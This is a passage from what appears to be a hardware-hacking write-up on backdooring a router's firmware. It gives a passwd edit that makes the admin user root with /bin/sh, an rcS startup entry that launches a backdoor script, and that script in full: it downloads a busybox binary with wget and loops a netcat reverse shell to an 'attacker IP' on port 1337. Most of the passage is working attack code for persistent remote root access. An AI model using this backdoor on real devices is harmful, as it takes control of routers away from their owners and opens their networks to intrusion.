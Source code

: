 The goal is to obtain a minimalist binary to execute the most common commands on an embedded system.

Now that we have demonstrated that the firmware modification works without errors, we can move on to the next step by setting up a reverse shell using the `netcat` utility.

However this utility is not present in the busybox software installed by default on this device.

By replacing the old busybox with a more complete version, we can get netcat containing more utilities on the router.

To start with, we will change the default shell present on the `admin` user: 

![https://i.imgur.com/fozSMTZ.png](https://i.imgur.com/fozSMTZ.png)

```
OLD =>
admin:x:1000:1000:Default non-root user:/home/cli/menu:/usr/sbin/cli

NEW =>
admin:x:0:0:root:/home:/bin/sh
```

Next, we will add our `bash` file which will contain our reverse shell on the `rcS` file (file which contains the commands to be executed at the router startup):

![https://i.imgur.com/NulOo5q.png](https://i.imgur.com/NulOo5q.png)

```bash
# Start the backdoor script
/bin/backdoor.sh &
```

The only thing missing is the `backdoor.sh` file which contains our reverse shell that we will place in the `/bin` folder:

![https://i.imgur.com/Eafj8NL.png](https://i.imgur.com/Eafj8NL.png)

```bash
#!/bin/sh

# Test if the router have internet connection
while ! ping -c 1 google.com &>/dev/null; do
    echo "Waiting for internet connection..."
    sleep 1
done

# Once we have internet connection, we can download busybox and execute it
cd /home/cli/menu
wget -q https://busybox.net/downloads/binaries/1.21.1/busybox-mips
chmod +x /home/cli/menu/busybox-mips

# Execute netcat with the attacker IP (Local ip for testing purposes)
while true; do
    /home/cli/menu/busybox-mips nc 192.168.0.99 1337 -e /bin/sh
    sleep 120
done
```
